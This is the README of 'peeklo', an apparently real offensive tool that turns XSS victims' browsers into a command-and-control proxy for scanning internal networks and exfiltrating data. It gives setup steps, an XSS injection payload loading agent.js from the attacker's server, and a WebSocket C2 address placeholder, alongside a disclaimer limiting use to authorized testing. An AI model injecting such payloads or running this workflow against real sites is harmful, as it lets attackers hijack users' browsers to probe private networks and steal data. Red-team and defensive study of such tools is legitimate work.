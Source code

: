 # peeklo

**Version:** v1.0

peeklo is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeklo establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeklo.git
    cd peeklo
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

4. Run the server:

    ```bash
    make run
    ```

5. Open your browser and access the control panel:

    ```
    https://<your-ip>:8443/static/control.html
    ```

6. Inject the XSS payload (example):

    ```html
    <script src="https://<your-ip>:8443/static/agent.js"></script>
    ```

    Or embed `infect.html` as needed depending on the vulnerability.

---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

### SERVER-IP Placeholder

In both `agent.js` and `control.html`, the WebSocket connection points to:

```javascript
wss://SERVER-IP:8443/ws
```

**Before deploying**, replace `SERVER-IP` with your actual IP address (e.g. `192.168.1.12` or a public IP/domain). This ensures the victim browser and control panel can communicate with your server over HTTPS.

---


## Project Structure

```
peeklo/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeklo server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeklo logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeklo outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

- **b3rito** – [https://github.com/b3rito](https://github.com/b3rito)  
- **GioPpeTto**
